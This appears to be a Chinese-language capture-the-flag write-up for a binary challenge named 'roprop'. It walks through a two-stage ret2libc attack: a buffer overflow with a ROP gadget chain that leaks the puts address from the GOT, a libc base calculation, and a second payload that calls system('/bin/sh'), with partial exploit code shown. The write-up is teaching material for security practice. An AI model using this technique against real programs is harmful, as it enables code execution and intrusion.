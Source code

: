 # roprop
簡單的ret2lib問題,先看一下security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE沒開,表示我們可以找到正確的address跟plt.got table.


稍微disas 看一下發現沒有什麼可以直接用的function,再看一下plt table,發現有puts@plt, 我們可以利用puts function來leak libc address,然後算出base address,再得到system的address.

我們要進行兩次overflow,第一次利用puts function印出puts在got table的address,得到libc這次執行的address,由於每次執行base address都不一樣,所以我們要在跳回到main的起點再運行一次程式，這樣base address仍會一樣.

第一次的payload:
```
...
gadget2 = 0x00400963 # pop rdi; ret;
align_gadget = 0x00400646 # ret;
...
payload = b'A'*88 + p64(align_gadget) + p64(gadget2) + p64(got_puts) + p64(plt_puts) + p64(main)  
...
```
透過ghidra或是gdb可以得到overflow的offset是88 bytes,由於x86 64在呼叫library function時會有stack alignment的問題,所以使用一個只有ret;的gadget來使stack align,然後呼叫puts function印出puts在got tableg上記錄的address,扣掉puts function在libc中的offset就能得到base address,再加上system的offset就能得到system的address.

透過以下code得到base address跟system function address:
```
...
libc_puts = proc.recvline()
# leak base address
libc_puts = u64(libc_puts[:-1].ljust(8, b'\x00'))
libc_base = libc_puts - libc.symbols['puts'] # calculate base address
libc_system = libc_base + libc.symbols['system'] # obtain system address
libc_binsh = libc_base + libc.search('/bin/sh').next() # find  "/bin/sh" string in libc
...
```
再進行第二次的overflow,這一次只要利用之前得到的system function address呼叫system("/bin/sh"),就可以得到command line.
```
...
payload = b'A'*88 + p64(gadget2) + p64(libc_binsh) + p64(libc_system) 
...
```
由於不會再呼叫其他library function,所以有沒有stack align都沒有關係,但如果之後還要再呼叫function就必須做align,不然會出錯.

執行exploit.py得到flag.
